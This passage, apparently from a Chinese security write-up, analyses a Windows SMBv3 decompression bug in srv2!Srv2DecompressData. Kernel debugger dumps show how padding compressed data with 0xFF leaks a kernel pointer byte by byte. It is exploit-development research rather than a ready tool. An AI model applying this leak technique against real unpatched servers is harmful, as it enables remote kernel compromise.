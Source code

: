 由于解压成功，所以进入 memcpy 流程，0x2100 缓冲区的 User Buffer 指针 0xffffa50836240050 被复制到 0x4100 缓冲区偏移 0x2108 处:

```
kd> dd ffffa508`35a92050 + 2100
ffffa508`35a94150  840fc085 000000af 24848d48 000000a8
ffffa508`35a94160  24448948 548d4120 b9410924 00000eda
kd> p
srv2!Srv2DecompressData+0x10d:
fffff802`51ce7f6d 8b442460        mov     eax,dword ptr [rsp+60h]
kd> dd ffffa508`35a92050 + 2100
ffffa508`35a94150  00010002 00000000 36240050 ffffa508
ffffa508`35a94160  00002100 548d1111 b9410924 00000eda

```

然后下一步是覆盖 0x4100 缓冲区中存放的 0x2100 缓冲区 User Buffer Ptr 中 08 a5 后面的 ffff 等数据（由于地址都是以 0xffff 开头，所以这两个字节可以不用测）。为了不破坏前面的数据（不执行 memcpy），要使得解压失败（在压缩的测试数据后面填充 \ xFF），但成功解压出测试数据。

![](https://images.seebug.org/content/images/2020/09/24/1600927622000-15nunre.png-w331s)

以下为解压前后保存的 User Buffer Ptr 的状态，可以发现解压后的数据正好满足之前所讲的单字节泄露模式，如果可欺骗程序使其解压 0xffffa50835a9415d 处的数据，就可以通过多次测试泄露出最高位 0xa5：

```
//待解压数据
kd> dd ffffa508`31edb050+10+210e
ffffa508`31edd16e  b014b007 ff007e00 ffff007c ffffffff
ffffa508`31edd17e  ffffffff ffffffff ffffffff ffffffff
ffffa508`31edd18e  ffffffff ffffffff ffffffff ffffffff
ffffa508`31edd19e  ffffffff ffffffff ffffffff ffffffff
ffffa508`31edd1ae  ffffffff ffffffff ffffffff ffffffff
ffffa508`31edd1be  ffffffff ffffffff ffffffff ffffffff
ffffa508`31edd1ce  ffffffff ffffffff ffffffff ffffffff
ffffa508`31edd1de  ffffffff ffffffff ffffffff ffffffff

//解压前数据
kd> db r9 - 6
ffffa508`35a94158  50 00 24 36 08 a5 ff ff-00 21 00 00 11 11 8d 54  P.$6.....!.....T
ffffa508`35a94168  24 09 41 b9 da 0e 00 00-45 8d 44 24 01 48 8b ce  $.A.....E.D$.H..
ffffa508`35a94178  ff 15 c2 68 01 00 85 c0-78 27 8b 94 24 a8 00 00  ...h....x'..$...
ffffa508`35a94188  00 0f b7 c2 c1 e8 08 8d-0c 80 8b c2 c1 e8 10 0f  ................
ffffa508`35a94198  b6 c0 03 c8 0f b6 c2 8d-0c 41 41 3b cf 41 0f 96  .........AA;.A..
ffffa508`35a941a8  c4 48 8d 44 24 30 48 89-44 24 20 ba 0e 00 00 00  .H.D$0H.D$ .....
ffffa508`35a941b8  41 b9 db 0e 00 00 44 8d-42 f4 48 8b ce ff 15 75  A.....D.B.H....u
ffffa508`35a941c8  68 01 00 85 c0 78 2f 8b-54 24 30 0f b7 c2 c1 e8  h....x/.T$0.....

kd> p
srv2!Srv2DecompressData+0xe1:
fffff802`51ce7f41 85c0            test    eax,eax
//解压后数据
kd> db ffffa508`35a9415d lff
ffffa508`35a9415d  a5 b0 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffa508`35a9416d  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffa508`35a9417d  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffa508`35a9418d  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffa508`35a9419d  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffa508`35a941ad  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffa508`35a941bd  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffa508`35a941cd  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffa508`35a941dd  00 00 00 00 ff ff ff ff-ff ff ff ff ff ff ff ff  ................
ffffa508`35a941ed  ff ff ff ff ff ff ff ff-ff ff ff ff ff ff ff ff  ................
ffffa508`35a941fd  ff ff ff ff ff ff ff ff-ff ff ff ff ff ff ff ff  ................
ffffa508`35a9420d  ff ff ff ff ff ff ff ff-ff ff ff ff ff ff ff ff  ................
ffffa508`35a9421d  ff ff ff ff ff ff ff ff-ff ff ff ff ff ff ff ff  ................
ffffa508`35a9422d  ff ff ff ff ff ff ff ff-ff ff ff ff ff ff ff ff  ................
ffffa508`35a9423d  ff ff ff ff ff ff ff ff-ff ff ff ff ff ff ff ff  ................
```